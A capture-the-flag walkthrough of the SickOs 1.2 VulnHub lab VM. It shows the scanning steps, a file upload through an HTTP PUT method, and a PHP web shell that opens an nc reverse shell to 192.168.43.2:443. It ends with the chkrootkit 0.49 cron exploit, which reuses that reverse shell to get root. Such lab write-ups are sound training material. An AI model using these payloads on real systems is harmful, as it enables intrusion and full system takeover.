## SickOs 1.2 VulnHub VM walkthrough

SickOs 1.2 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-12,144/

```
This is second in following series from SickOs and is independent of the prior releases, scope of challenge is to gain highest privileges on the system.
```

## Solution

#### Sudo Netdiscover

> IP address: 192.168.1.8

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.8

> OpenSSH 5.9p1 & lighthttpd 1.4.28

#### Nikto: Nikto -h 192.168.1.8

> nothing interesting

#### Dirb http://192.168.1.8

> test and index.php

#### Visit test directory


#### Check curl methods: curl -v -X OPTIONS http://192.168.1.8/test

> notice PUT method

#### Intercept http://192.168.1.8/test in burp and try creating a file with PUT

> 'x' created

#### Check with curl http://192.168.1.8/test/x

> Got the content

#### Add reverse shell and Note that the outbound traffic except port 443 is blocked by Firewall, so in reverse shell, use port 443
```
<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f"); ?>
```

> shell created

> got shell access

#### Spawn tty shell


### Method: Using Chkrootkit
#### Check cron.daily

> chkrootkit 0.49 version vulnerable to local privilege escalation
> put malicious code in /tmp/update and wait for cron.daily to execute it
```
echo '#!/bin/bash' > update
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f' >> update 
chmod 777 update
```


#### Nc -nvlp 443

> Got root
